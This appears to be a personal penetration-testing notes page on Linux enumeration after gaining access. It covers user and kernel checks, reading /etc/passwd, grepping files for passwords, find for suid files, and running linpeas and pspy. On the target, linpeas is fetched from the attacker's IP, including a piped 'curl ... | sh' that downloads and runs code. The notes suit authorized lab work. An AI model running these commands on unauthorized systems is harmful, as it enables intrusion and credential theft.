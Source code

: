 # Linux Enumeration

## Check who you are

```bash
┌──(mac㉿kali)-[~]
└─$ whoami
mac
```

or alternatively use `id` to see more information about your `uid` and which groups you are in:

```bash
┌──(mac㉿kali)-[~]
└─$ id
uid=1000(mac) gid=1000(mac) groups=1000(mac),27(sudo)
```

## Check for other people
Read the `/etc/passwd` file to see a list of users on the box:

```bash
$ cat /etc/passwd
```

Many of these users will relate to certain services, and not be a real person. Look for real users by filtering by those with a real login shell:

```bash
$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
mac:x:1000:1000:Mac,,,:/home/mac:/bin/bash
```

## Check kernel information

```bash
┌──(mac㉿kali)-[~]
└─$ uname -a
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64 GNU/Linux
```

**What does this mean?**

The kernel is a central part of the operating system. This command tells you about the distribution (Kali Linux), the version, and the word size (`x86_64`, i.e. 64-bit)

## Reading all Files
This command concatenates the contents of any readable files in the current working directory:

```bash
$ cat */*
```

It can be combined with a `grep` to look for passwords, for example:

```bash
$ cat */* | grep pass
```

However, it is not particularly efficient on a large number of files - try to use it within a specific directory

## Find Command

Find files by user ownership (from [this post](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions))

```bash
$ find / -user userX
```

Find files by group ownership (from [this post](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group))

```bash
$ find / -group groupX
```
  
Find config files and redirect errors:

```bash
$ find / -name '*.conf' 2>/dev/null
```

Find suid files:

```bash
$ find . -perm /4000
```

Exclude a filename or other query with the `-not` or `!` operator:

```bash
$ find . -not -name "*.exe"

#exclude directories and files beginning with "sys"
$ find /var ! -name "sys*" ! -type d
```

As always, filter your output with `grep` if your find command is not granular enough:

```bash
# anything with "backup" in the name
$ find / -type f | grep backup

#get rid of stuff from /proc and /var/lib
$ find / -user user | grep -v 'proc\|var/lib'

#get rid of error messages (useful if the > operator doesn't work in a shell)
$ find / -user user | grep -v 'Permission denied'
```

You can even use regex in your `find` command with the `-regex` flag:

```bash
$ find ./ ! -regex  '.*\(deb\|vmdk\)$'
```

Or use logical operators like `-o` (logical OR):
```bash
$ find /media/d/ -type f -size +50M ! \( -name "*deb" -o -name "*vmdk" \)
```

(both of the above examples from https://unix.stackexchange.com/questions/50612/how-to-combine-2-name-conditions-in-find#)

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Placing it in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases]] for `enumserve` alias setup.

On attacker machine:

```bash
$ enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
$ wget [IP]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

You can also send it directly to `sh`/`bash` if `wget` is not installed:

```bash
$ curl 10.10.14.53:8000/linpeas.sh | sh
```

Sometimes firewall rules may prevent you from accessing port 8000 - try running the server on port 80 if you aren't getting any results (requires root permissions):

```bash
$ sudo python3 -m http.server 80
```

## Standard Directories to Check
```
/home
/var/www
/var/backups
/var/logs
/opt
/usr/share
/usr/share/local
```

## List Processes & Services
List processes:

```bash
$ ps aux
```

Pspy monitoring:

```bash
$ wget [IP]:8000/pspy64
$ chmod +x pspy64
$ ./pspy64
```

List services:

```bash
$ netstat
```

```bash
$ ss -lntp
```

```bash
$ systemctl list-units --type=service --state=running
```

**Why is this useful?**

- It allows you to see what might be running on a system - and therefore what might be a vulnerable process or service
- It gives you clues to the purpose/role of the user or the system
- It may help you identify processes that belong to higher-privileged users
